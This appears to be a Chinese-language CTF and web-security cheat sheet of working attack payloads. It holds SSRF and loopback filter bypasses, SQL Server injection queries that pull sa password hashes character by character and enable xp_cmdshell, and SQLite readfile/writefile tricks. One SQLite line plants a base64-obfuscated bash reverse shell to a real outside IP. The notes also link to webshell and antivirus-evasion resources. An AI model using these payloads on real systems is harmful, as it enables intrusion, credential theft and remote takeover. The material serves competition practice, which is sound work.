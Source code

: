 
# Web

## RCE 命令绕过

包含 www.baidu.com 通过 http://user:pass@host 格式绕过16进制/8进制

`www.baidu.com@127.0.0.2`

绕过 127.0.0.1 , 2-127都可以, 8进制
```txt
127.0.0.2
...
127.0.0.127

curl 127.0.0.0x02
ping 0x7F.0x00.0x00.0x01
ping 0x7F000001
ping 0177.0000.0000.0001
```
### bypass
[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)

## SSRF

1. 不存在路径绕过

`url=/http/../flag`

2. 通过127.0.0.2 ... 127


## curl 使用
curl -i -L
```txt
-i, --include       Incluude protocol response headers in the output
-L, --location      Follow redirects
```


# SQL 注入

## SQL Server
https://www.w3schools.com/sql/sql_ref_sqlserver.asp

```sql
-- db name
Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)
-- stack query
-- if else
SELECT IIF(500<1000, 'YES', 'NO');
if (1=1) waitfor delay '00:00:1' else select 2
-- blind
?id=1' waitfor delay '00:00:2'--'

-- current-user
select CURRENT_USER;
select SYSTEM_USER;
select USER_NAME();

-- functions
ascii,char,charindex,concat,concat with +,concat_ws,datalength,difference,format,left,len,lower,ltrim,nchar,patindex,quotename,replace,replicate,reverse,right,rtrim,soundex,space,str,stuff,substring,translate,trim,unicode,upper
select case when 1=1 then 0 else 2 end  -- if else 
if (1<0) Begin select 'true' End Else Begin select 'false' End -- if else 2

-- sa passwords
select *  FROM master.sys.sql_logins
select *  FROM [master].[sys].[sql_logins]
SELECT name, CAST(CONVERT(varchar(max), password_hash, 1) AS varchar)  FROM master.sys.sql_logins -- 0x0102  https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16
SELECT name, CAST(CONVERT(varchar(max), password_hash, 2) AS varchar)  FROM master.sys.sql_logins -- 0102

select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 1, 1))=48  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为0
select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 2, 1))=49  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为1


SELECT HOST_NAME()  -- 主机名
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser -- SUSER_NAME sa
-- 在master - 视图里
```

启动 xp_cmdshell
```
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```
## sqlite

```sql
sqlite3.exe db.sqlite3 -cmd SELECT(name)FROM(sqlite_master)
# 查表名
SELECT name FROM sqlite_master WHERE type='table';
SELECT CHAR(97);  -- 'a'
SELECT HEX('a');  -- 61

-- 2022第五空间 5_Misc_m@sTeR_0f
SELECT writefile('/home/ctf/'||CHAR(46)||'sqliterc',"select readfile('/flag'||CHAR(46)||'txt')")
select sqlite_version()

select readfile('/etc/passwd')
select writefile('/home/ctf/'||(SELECT substr(sqlite_version(),2,1))||'sqliterc',
(SELECT substr(sqlite_version(),2,1)||'shell echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjYuNTkuMTM3Lzg4ODggMD4mMQo=|base64 -d|bash'))
```
# Python

```
{0.__class__.__init__.__globals__}
```
# Javascript

弱类型
```ts
[]  ==  0   // true
[]  ==  ''  // true
[2] ==  2   // true
[0] ==  0   // true
[0] == "0"  // true
[0] ==="0"  // false
"0" !== [0] // true
123+"hello"    // '123hello'
[123]+"hello"  // '123hello'
"123"+"hello"  // '123hello'
```


# Article

[无字母数字RCE初探](http://www.m0x01sery.com/2022/03/28/rce-without-w-and-n/) 
[【安全练兵场】| BurpSuite靶场系列之SQL注入](https://mp.weixin.qq.com/s/RqB-vMifxn0-4hrn0OEoHQ)
[【安全练兵场】| BurpSuite靶场系列之身份验证](https://mp.weixin.qq.com/s/wDWcdTdFRkI8cMK1_pv94w)

[PHP反序列化从0到1](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496642&idx=1&sn=d1c120b862c75f586492ee9daf011f95)
[详解PHP反序列化字符逃匿](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495677&idx=1&sn=8b5d7efcb290219f1af7029078d81012)
[详解PHP弱类型安全问题](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494684&idx=1&sn=8264be9d89d29cc3c2c493b9aaa8d35f)
[Bypass_disable_function总结](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247493192&idx=1&sn=e6ec9ea78e2faccc013787376aced1cc)
[bypass_无参数读文件和RCE的利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492577&idx=1&sn=3011d1eebe62226644ad83e9f6fee67a)
[Android-Webview中的漏洞利用总结](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247493433&idx=1&sn=c7f12e2b2afa2b57a9c663d272c40511)
[SQLite注入](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492558&idx=1&sn=9f77c3df6508345194b6646f31cc4b29)
[Java | JDBC 反序列化漏洞分析 & POC 编写](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491462&idx=1&sn=8846b0f6a7ec694ff14722a78bc079d0)
[Java | JDK8从任意文件写到远程命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247493744&idx=1&sn=e3661151be5be5d88d41b8c88326841c)

## rce
[无字母数字Webshell&&冰蝎Webshell](https://mp.weixin.qq.com/s/1PX7_nU7bmqOs3lGb8O8gw)

## SRC
[Java代码分析工具Tabby在CTF中的运用](https://mp.weixin.qq.com/s/u7RuSmBHy76R7_PqL8WJww)
[挖洞思路：前端源码泄露漏洞并用source map文件还原](https://blog.csdn.net/qq_44930903/article/details/124257571)
## 工具/马
[java 内存马](https://github.com/su18/ysoserial)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[史上最全一句话木马](https://mp.weixin.qq.com/s/o_HUnlubJdPRdQdpnMJeEw)
[ChatGPT 写了“木马”](https://mp.weixin.qq.com/s/C3taCJVQP0RwNSBXoBnJFg)

## 免杀
[免杀学习——PHP免杀](https://blog.csdn.net/ZxC789456302/article/details/127473366): 白白白无-免杀学习——PHP免杀----🔥 热度:9113 
[jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/Runtime-reflect-cmd.jsp)

## SQLi
[2022 年最佳 SQL 注入检测工具【文末抽书】](https://mp.weixin.qq.com/s/2clT1zX9s8RXpMPsRK5zyg)
[nosql注入用户名密码爆破工具](https://0xmrm.com/272.html)
## ssti 
https://blog.csdn.net/miuzzx/article/details/127744431#t4
[CTF中SSTI漏洞的简单利用](https://mp.weixin.qq.com/s/pA-ca-b0IYszwjmkCIdYBg)

## AWD
[Web AWD竞赛的攻击与防御技巧](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247493468&idx=1&sn=507cbbb3809c19ad4d16475904bf8001)
